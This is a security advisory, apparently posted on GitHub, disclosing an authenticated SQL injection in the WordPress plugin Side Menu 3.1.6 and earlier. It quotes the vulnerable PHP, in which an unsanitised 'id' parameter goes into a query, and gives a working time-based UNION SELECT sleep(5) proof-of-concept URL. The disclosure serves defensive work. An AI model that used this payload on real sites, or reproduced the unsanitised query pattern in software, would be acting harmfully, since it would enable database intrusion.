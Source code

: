 # Side Menu <= 3.1.6 - Authenticated SQL Injection
## Description
    The menu update functionality of the plugin, available to Administrator users takes the id GET parameter and uses it into an SQL statement without proper sanitisation, validation or escaping, therefore leading to a SQL Injection issue.   
## Affects Plugins
    Side Menu <= 3.1.6 (the latest version at this time)
    https://wordpress.org/plugins/side-menu/
## Author
    pang0lin@webray.com.cn inc 
## Detail
    The issue is occured at file side-menu-lite/admin/partials/include-data.php. When the parameter $act equals to 'duplicate', the parameter id is derectly used by mysql select sql. 
```
if ( $act == "update" ) {
	$rec_id = absint( $_REQUEST["id"] );
	$result = $wpdb->get_row( "SELECT * FROM $data WHERE id=$rec_id" );
	if ( $result ) {
		$id         = $result->id;
		$title      = $result->title;
		$param      = unserialize( $result->param );
		$tool_id    = $id;
		$add_action = 2;
		$btn        = esc_attr__( 'Update', $this->plugin['text'] );
	}
} elseif ( $act == "duplicate" ) {
	$rec_id = $_REQUEST["id"];
	$result = $wpdb->get_row( "SELECT * FROM $data WHERE id=$rec_id" );
	if ( $result ) {
		$id    = "";
		$title = "";
		$param = unserialize( $result->param );
		$last  = $wpdb->get_col( "SELECT id FROM $data" );;
		$tool_id    = max( $last ) + 1;
		$add_action = 1;
		$btn        = esc_attr__( 'Save', $this->plugin['text'] );
	}
} else {
	$id         = "";
	$title      = "";
	$last  = $wpdb->get_col( "SELECT id FROM $data" );
	$tool_id    = !empty($last) ?  max( $last ) + 1 : 1;
	$param      = '';
	$add_action = 1;
	$btn        = esc_attr__( 'Save', $this->plugin['text'] );
}

```
## Proof of Concept
http://192.168.65.26/wp/wp-admin/admin.php?page=side-menu-lite&tab=add-new&act=duplicate&id=0 union select 1,2,sleep(5)

Visit this page, it will sleep more than 5 seconds.
![blockchain](https://github.com/pang0lin/CVEproject/blob/main/imgs/wordpress_side-menu_sqli.png "Wordpress plugin side-menu sqli")

